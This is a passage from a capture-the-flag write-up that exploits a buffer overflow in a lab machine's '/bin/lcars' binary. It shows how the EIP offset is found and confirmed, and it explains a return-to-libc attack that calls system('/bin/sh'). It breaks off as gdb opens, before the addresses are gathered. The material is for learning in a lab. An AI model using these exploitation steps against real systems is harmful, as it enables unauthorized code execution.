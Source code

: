 
I’ll enter the pattern, and the program crashes:

![image-20210616073925642](https://0xdfimages.gitlab.io/img/image-20210616073925642.png)

On a 32-bit program, the invalid address has been loaded into the EIP register
(which has the address of the next instruction). In this case, it’s
0x31684130, or `0Ah1`.

I can pass back either the hex address or the four characters string, and
`pattern` will tell me how far into the input that was:

    
    
    oxdf@parrot$ pattern offset 0Ah1 250
    212
    oxdf@parrot$ pattern offset 0x31684130 250
    212
    

I can double check this with a string of 212 As and then four B:

    
    
    oxdf@parrot$ python -c 'print("A"*212 + "BBBB")'
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
    

I’ll do the same thing in `gdb`, and at the crash:

![image-20210616074240671](https://0xdfimages.gitlab.io/img/image-20210616074240671.png)

### Return to Libc

#### Theory

I’ve shown return to libc attacks before, and gave a detailed explanation in
[Frolic](/2019/03/23/htb-frolic.html#background). The idea is that I’m going
to overwrite the return address with the address of the `system` function in
libc. The next address down the stack is the address to return from when
`system` is done. This can be junk, or I can give it the address of `exit` to
cleanly end. Then I need the arguments for `system`. I want to call
`system("/bin/sh")`, so I need the address of a “/bin/sh” string in libc.

#### Practice

I’ve [shown before](/2019/03/23/htb-frolic.html#addresses) using `ldd` to get
the libc base address, then `readelf` to get the offsets of `system` and
`exit`, and `strings` to get the address of `/bin/sh`. `readelf` isn’t on
Enterprise, but `gdb` is, and it can get the needed addresses.

Drop into `gdb`:

    
    
    www-data@enterprise:/$ gdb -q /bin/lcars
    Reading symbols from lcars...(no debugging symbols found)...done.
    (gdb)
    